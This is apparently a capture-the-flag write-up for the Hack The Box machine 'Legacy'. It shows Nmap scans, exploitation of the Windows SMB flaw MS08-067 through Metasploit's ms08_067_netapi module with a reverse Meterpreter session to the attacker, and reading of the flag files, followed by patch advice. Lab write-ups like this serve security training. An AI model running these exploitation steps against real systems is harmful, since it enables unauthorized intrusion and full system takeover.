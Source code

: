 ## ⚙️ Machine Info:

- **Name**: Legacy
- **IP**: `10.10.10.4`
- **OS**: [Windows XP SP3](Windows)
- **Difficulty**: [Easy](Easy)
- **Exploits Used**:
    - [SMB](SMB) vulnerability: **MS08-067 (CVE-2008-4250)** — Remote Code Execution
- **Tools**:
    - [Nmap](https://nmap.org/)
    - [Metasploit](https://www.metasploit.com/)
    - [Meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)

---

## 🔍 Recon

### 📌 Add to `/etc/hosts`

```bash
echo "10.10.10.4 legacy.htb" | sudo tee -a /etc/hosts
```

### 🔎 Nmap Full TCP Scan

```bash
nmap -sC -sV -p- -Pn -T4 legacy.htb
```

### 🔐 Vulnerability Scan (Targeted SMB Ports)

```bash
nmap -p 135,139,445 -sT -A -O -sV -sC --script vuln -Pn -T4 legacy.htb
```

✅ **Findings**: Vulnerable to [CVE-2008-4250](https://nvd.nist.gov/vuln/detail/CVE-2008-4250) – MS08-067 (Server Service Vulnerability)

---

## 💥 Exploitation

### 🚀 Launch Metasploit

```bash
msfconsole -q
```

### 🔍 Search for Exploit

```bash
search CVE-2008-4250
```

✅ Use: `exploit/windows/smb/ms08_067_netapi`

### 🛠️ Configure Payload

```bash
use exploit/windows/smb/ms08_067_netapi
set RHOSTS 10.10.10.4
set LHOST tun0
run
```

---

## 🐚 Meterpreter Shell

### 🎉 Confirm Access

```bash
getuid
```

✅ Output: `NT AUTHORITY\SYSTEM`

### 📁 Navigate to Flags

```shell
cd "Documents and Settings/john/Desktop"
type user.txt

cd ../../Administrator/Desktop
type root.txt
```

---

## 🛡️ Mitigation

> **Patch Recommendation**:  
> Apply [Microsoft Security Bulletin MS08-067](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067) to fix the remote code execution vulnerability in the Server service. This update is **critical** for Windows XP, 2000, and 2003 systems.

---

## 🧠 Actions Learned from This Box

- Importance of **patching legacy systems** 🩹
- SMB port enumeration using Nmap
- Exploiting Windows vulnerabilities using **Metasploit**
- Using `Meterpreter` for privilege access and system exploration
- CVE identification and mitigation strategy 📚

---

## 🔗 References

- [NVD — CVE-2008–4250](https://nvd.nist.gov/vuln/detail/CVE-2008-4250)
- [MITRE — CVE-2008–4250](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250)
- [MS08-067 Microsoft Security Bulletin](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067)
